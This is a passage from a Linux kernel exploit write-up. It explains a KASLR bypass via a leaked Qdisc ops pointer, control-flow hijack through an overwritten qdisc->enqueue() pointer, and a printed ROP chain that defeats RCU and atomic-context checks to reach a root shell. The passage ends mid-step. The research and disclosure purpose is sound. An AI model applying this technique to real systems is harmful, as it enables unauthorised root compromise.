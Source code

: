 After corrupting the user key, I leaked the `tbf_qdisc_ops` pointer from the `Qdisc` structure so I could bypass KASLR. (Step 2.1 in exploit.c)

## RIP-Control

In the final steps, I freed all the keys in dyn-kmalloc-1k including the one corrupted by Qdisc, and I reallocated them, overwriting the Qdisc structure. I overwritten the `qdisc->enqueue()` function pointer with a stack pivot gadget storing the rest of the ROP-chain in the same chunk. (Step 3.0 - 3.1 in exploit.c)

Finally, I sent packets to the network interface to trigger the call to [dev_qdisc_enqueue()](https://elixir.bootlin.com/linux/v6.1/source/net/core/dev.c#L3779) in [__dev_xmit_skb()](https://elixir.bootlin.com/linux/v6.1/source/net/core/dev.c#L3825), this way I could hijack control flow. (Step 3.2 in exploit.c)

Note that when `qdisc->enqueue()` is called, RSI (and RBP in other kernel builds) already contains the address of the corrupted Qdisc chunk itself, where the ROP-chain was stored, so it is not necessary to leak a heap address / know the address of the corrupted chunk.

## Post-RIP

After hijacking control flow, two problems arose. Since `qdisc->enqueue()` is called in an atomic / RCU read-side critical section, when I returned to user space, instead of getting a root shell, the kernel panicked showing two error messages:

- `"Illegal context switch in RCU read-side critical section"` 

- `"BUG: scheduling while atomic: [...]"`

Fortunately, I managed to bypass both of them.

To bypass "RCU read-side critical section", a write-what-where gadget was used in the ROP-chain to set `current->rcu_read_lock_nesting = 0`.

```c
	// current = find_task_by_vpid(getpid())
	rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
	rop[idx++] = getpid();                   // pid
	rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

	// current += offsetof(struct task_struct, rcu_read_lock_nesting)
	rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
	rop[idx++] = 0x46c;                      // offsetof(struct task_struct, rcu_read_lock_nesting)
	rop[idx++] = kbase + 0xffffffff8107befa; // add rax, rsi ; jmp 0xffffffff82404440 (retpoline)

	// current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
	rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
	rop[idx++] = 0;                          // 0
	rop[idx++] = kbase + 0xffffffff8167104b; // mov qword ptr [rax], rcx ; jmp 0xffffffff82404440 (retpoline)
```

To bypass "scheduling while atomic" instead, the kernel was tricked into believing that a oops was in progress setting [oops_in_progress](https://elixir.bootlin.com/linux/v6.1/source/include/linux/printk.h#L15) to 1:
